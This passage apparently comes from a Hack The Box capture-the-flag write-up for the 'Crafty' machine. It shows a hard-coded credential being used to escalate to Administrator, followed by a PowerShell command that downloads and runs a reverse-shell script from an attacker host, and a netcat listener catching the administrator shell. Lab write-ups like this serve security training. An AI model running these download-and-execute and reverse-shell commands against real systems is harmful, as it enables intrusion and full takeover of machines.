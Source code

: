 ```java
    String result = null;  
    try {  
      result = rcon.command("players online count");  
      PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");  
      writer.println(result);  
    } catch (IOException e3) {  
      throw new RuntimeException(e3);  
    }   
  }  
    
  public void onDisable() {}  
}
```

Hard coded password, time to check local admin. 

```powershell
PS C:\Users> $username='Administrator'
$username='Administrator'
PS C:\Users> $password='s67u84zKq8IXw'
$password='s67u84zKq8IXw'
PS C:\Users> $securePassword= ConvertTo-SecureString $password -AsPlainText -Force
$securePassword= ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Users> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Users> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8081/revshell.ps1')" -Credential $credential
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Crafty/log4j-shell-poc]
└──╼ $nc -nvlp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.249 49726
whoami
crafty\administrator
dir
Administrator Public svc_minecraft
cd Administrator/Desktop

dir
root.txt
type root.txt
5e4131238f8---------------------
```

